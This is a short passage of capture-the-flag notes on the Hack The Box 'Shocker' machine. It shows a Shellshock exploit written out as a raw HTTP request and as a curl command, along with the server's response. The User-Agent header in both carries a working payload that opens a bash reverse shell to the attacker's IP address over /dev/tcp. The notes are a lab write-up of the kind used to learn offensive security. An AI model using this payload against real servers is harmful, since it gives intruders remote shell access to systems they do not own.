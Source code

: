 ![Pasted image 20210502155512.png](../../zzz_res/attachments/Pasted_image_20210502155512.png)

Exploited Shellshock: [Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/34900)

```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.14.24/10099 0>&1 &
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Shocker/exploit]
└─$ curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.10.56' -H $'User-Agent: () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.14.24/10099 0>&1 &' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    $'http://10.10.10.56/cgi-bin/user.sh'
HTTP/1.1 200 OK
Date: Sun, 02 May 2021 13:46:55 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Transfer-Encoding: chunked
Content-Type: text/x-sh

Content-Type: text/plain

Just an uptime test script

 09:46:55 up  1:26,  0 users,  load average: 0.00, 0.00, 0.00
```
